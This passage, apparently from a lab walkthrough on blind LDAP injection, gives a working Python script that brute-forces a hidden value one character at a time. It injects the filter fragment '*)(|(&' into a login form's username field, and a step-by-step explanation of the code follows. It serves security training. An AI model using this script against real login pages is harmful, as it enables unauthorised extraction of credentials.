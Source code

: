 To automate the exfiltration of data in the previous task, you can use the Python script below:

```python
import requests
from bs4 import BeautifulSoup
import string
import time

# Base URL
url = 'http://10.10.211.54/blind.php'

# Define the character set
char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + "._!@#$%^&*()"

# Initialize variables
successful_response_found = True
successful_chars = ''

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

while successful_response_found:
    successful_response_found = False

    for char in char_set:
        #print(f"Trying password character: {char}")

        # Adjust data to target the password field
        data = {'username': f'{successful_chars}{char}*)(|(&','password': 'pwd)'}

        # Send POST request with headers
        response = requests.post(url, data=data, headers=headers)

        # Parse HTML content
        soup = BeautifulSoup(response.content, 'html.parser')

        # Adjust success criteria as needed
        paragraphs = soup.find_all('p', style='color: green;')

        if paragraphs:
            successful_response_found = True
            successful_chars += char
            print(f"Successful character found: {char}")
            break

    if not successful_response_found:
        print("No successful character found in this iteration.")

print(f"Final successful payload: {successful_chars}")
```

## **script break down**

1. **Imports**:
    - `requests`: A Python library for making HTTP requests.
    - `BeautifulSoup` from `bs4`: A library for parsing HTML documents, making it easier to navigate and search the parse tree.
    - `string`: A module containing common string operations, including a collection of string constants.
    - `time`: A module providing various time-related functions.
2. **Setup**:
    - The `url` variable is set to `'http://10.10.211.54/blind.php'`, which is the target URL where the HTTP POST requests will be sent.
    - `char_set` includes lowercase and uppercase letters, digits, and a selection of special characters. This set represents all the characters the script will iterate over to guess the password.
3. **Variables Initialization**:
    - `successful_response_found` is a flag used to control the while loop. It starts as `True` to enter the loop and is set to `False` when no successful character is found.
    - `successful_chars` stores the sequence of successfully guessed characters.
4. **HTTP Headers**:
    - A dictionary `headers` is defined with the content type set to `'application/x-www-form-urlencoded'`, indicating the body format of the HTTP POST request.
5. **Main Loop**:
    - The script enters a `while` loop that continues as long as `successful_response_found` is `True`.
    - Inside this loop, it iterates over each character in `char_set`.
6. **Crafting and Sending HTTP Requests**:
    - For each character, the script creates a dictionary `data` with a key-value pair intended for the HTTP POST request. The `username` field is injected with a payload combining successfully found characters and the current character being tested, followed by `*)(|(&`, which is part of the injection syntax. The `password` field is arbitrarily set to `'pwd)'`.
    - An HTTP POST request is sent to the target `url` with the crafted `data` and `headers`.
7. **Response Handling**:
    - The response content is parsed with BeautifulSoup to analyze the HTML structure.
    - The script looks for `<p>` tags with a `style` attribute of `'color: green;'`, which is assumed to indicate a successful guess.
8. **Character Verification**:
    - If such paragraphs are found, it means the current character is part of the password. This character is then appended to `successful_chars`, and the script breaks out of the inner loop to test the next character.
    - If no paragraphs meet the criteria, the script concludes that no successful characters were found in the current iteration, prints a message, and exits the loop.
9. **Output**:
    - Once all characters have been tested or the correct sequence is found, the script prints the final sequence of successfully found characters.

The above script iteratively guesses the characters of the email by observing the web application's behaviour in response to crafted input.